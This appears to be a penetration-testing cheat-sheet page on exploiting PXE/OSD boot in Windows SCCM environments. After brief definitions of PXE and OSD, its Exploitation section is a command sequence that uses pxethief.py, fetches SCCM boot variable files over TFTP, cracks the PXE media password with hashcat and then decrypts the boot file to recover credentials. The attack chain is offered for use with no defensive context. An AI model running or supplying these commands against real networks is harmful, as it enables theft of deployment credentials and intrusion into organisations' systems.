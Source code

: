 # PXE/OSD Exploitation

## What is it ?

> **PXE** is a technology that enables a computer to boot over a network, rather than from a hard disk or CD-ROM. This technology is used to deploy operating systems on computers with no operating system installed, or to boot computers with a temporary operating system for maintenance or diagnostic tasks. In a Windows environment, PXE is often used in combination with WDS (Windows Deployment Services) or SCCM (System Center Configuration Manager) to deploy Windows images to many computers simultaneously.

> **OSD** (Operating System Deployment) refers to the set of processes and technologies used to install and configure operating systems on computers within an enterprise. In the context of Windows, this generally includes the use of solutions such as SCCM, which enable customized Windows images to be created, deployed to target machines via the network, and post-deployment settings and applications to be managed. These technologies are essential for effectively managing the operating system lifecycle in large organizations, enabling deployment automation, configuration standardization, and the reduction of costs and errors associated with manually installing operating systems on numerous devices.

## Exploitation

```bash
# PXE password is not present
python3 pxethief.py 1
# or
python3 pxethief.py 2 sccm2.root.local

# PXE password is present
pxethief.py 1 or pxethief.py 2 sccm2.root.local

tftp -i 192.168.1.9 GET "\SMSTemp\2023.07.14.21.38.36.0001.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.var"
"2023.07.14.21.38.36.0001.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.var"

tftp -i 192.168.1.9 GET "\SMSTemp\2023.07.14.21.38.35.04.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.bcd"
"2023.07.14.21.38.35.04.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.bcd"

pxethief.py 5 2023.07.14.21.38.36.0001.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.var

hashcat -m 19850 hash wordlist.txt --force

python3 pxethief.py 3 "2023.07.14.21.38.36.0001.{85E1DEDB-5CB6-4BCC-826B-77D48AC0BE71}.boot.var" Password123
```
